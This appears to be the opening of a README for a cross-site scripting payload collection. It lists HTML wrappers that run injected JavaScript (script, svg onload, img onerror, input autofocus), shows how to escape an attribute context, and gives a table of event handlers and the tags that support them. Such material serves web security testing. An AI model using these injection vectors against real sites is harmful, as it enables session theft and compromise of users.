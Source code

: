 
# First things first

Some of the payloads described below are already wrapped in HTML which puts the payload in JavaScript context, but you can of course change the HTML element used. Other payloads need wrapping, as indicated for each. Possible ways to execute a payload are:

* If injection ends up outside of an HTML tag:
  * `<script>`**_payload_**`</script>`
  * `<svg/onload="`**_payload_**`"/>`
  * `<img/onerror="`**_payload_**`"/src=x>`
  * `<style/onload="`**_payload_**`"></style>`
  * `<input/onfocus="`**_payload_**`"/autofocus>`
  * `<marquee/onstart="`**_payload_**`"></marquee>`
  * `<div/onwheel="`**_payload_**`"/style="height:200%;width:100%"></div>`
  * `<div/onmouseover="`**_payload_**`"/style="height:100%;width:100%"></div>`
  * ... many more, see below table for event attributes and supported tags
* If injection ends up inside an HTML tag's attribute:
  * `" `**_event_**`="`**_payload_**
  * `' `**_event_**`='`**_payload_** *(replace single quotes in payload with double quotes)*

## Event handlers

Possible events and the supported HTML tags are:

| event         | supported HTML tags |
|---------------|---------------------|
| onload        | body, frame, frameset, iframe, img, input type="image", link, script, style |
| onchange      | input type="checkbox", input type="file", input type="password", input type="radio", input type="range", input type="search", input type="text", select, textarea |
| onkeyup       | **all except** base, bdo, br, head, html, iframe, meta, param, script, style, title |
| onmouseover   | &#x2014;"&#x2014; |
| onblur        | &#x2014;"&#x2014; |
| onfocus       | &#x2014;"&#x2014; |
| onclick       | &#x2014;"&#x2014; |
| onmouseover   | &#x2014;"&#x2014; |
| onmouseout    | &#x2014;"&#x2014; |
| oncontextmenu | **all, but it can only be triggered if the element has a non-zero size on the page, and is not covered by other elements** |
| onwheel       | &#x2014;"&#x2014; |
| ondrag        | &#x2014;"&#x2014; |
| ondrop        | &#x2014;"&#x2014; |
| oncopy        | &#x2014;"&#x2014; |
| oncut         | &#x2014;"&#x2014; |
| onpaste       | &#x2014;"&#x2014; |
| onscroll      | address, blockquote, body, caption, center, dd, dir, div, dl, dt, fieldset, form, h1&#x2014;h6, html, li, menu, object, ol, p, pre, select, tbody, textarea, tfoot, thead, ul |
| oninvalid     | input |
| oninput       | input type="password", input type="search", input type="text", textarea |
| onsearch      | input type="search" |
| onselect      | input type="file", input type="password", input type="text", textarea |